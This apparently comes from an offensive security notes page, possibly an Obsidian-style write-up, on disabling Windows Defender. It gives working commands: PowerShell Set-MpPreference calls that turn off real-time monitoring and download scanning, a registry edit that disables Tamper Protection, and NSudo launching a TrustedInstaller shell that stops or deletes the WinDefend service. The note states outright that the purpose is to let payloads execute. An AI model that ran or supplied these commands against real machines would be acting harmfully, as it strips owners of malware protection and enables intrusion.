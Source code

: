 ```

powershell.exe -command "Set-MpPreference -ScanScheduleDay 8"

reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v TamperProtection /t REG_DWORD /d 0 /f

# Disable realtime monitoring altogether
powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true"

# Only disables scanning for downloaded files or attachments
powershell.exe -c "Set-MpPreference -DisableIOAVProtection $true"

```

### Working:

### Using NSudo

Use NSudo to create a cmd.exe process with TrustedInstaller (T) / System (S) enabling all privileges (E): `.\NSudoLC.exe -U:T -P:E cmd.exe`

Stop the defender service in the new spawned elevated prompt (It is also possible to delete the service using "sc delete"): `sc stop windefend` 

![](Pasted%20image%2020221123152156.png)

Defender can be bypassed to execute payloads and re-enabled back using the "sc start" command.

Now to bypass Tamper Protection, the registry key is not allowed to be altered until the windefend service is stopped. We can continue after stopping the target windefend service as above to disable tamper protection using registry:

![](Pasted%20image%2020221123152606.png)

Next restart the service to find tamper protection disabled:

![](Pasted%20image%2020221123152807.png)

Now disable AV as normal using the following commands:

```
# Disable realtime monitoring altogether
powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true"

# Only disables scanning for downloaded files or attachments
powershell.exe -c "Set-MpPreference -DisableIOAVProtection $true"
```

Summary of attack:

![](Pasted%20image%2020221123153437.png)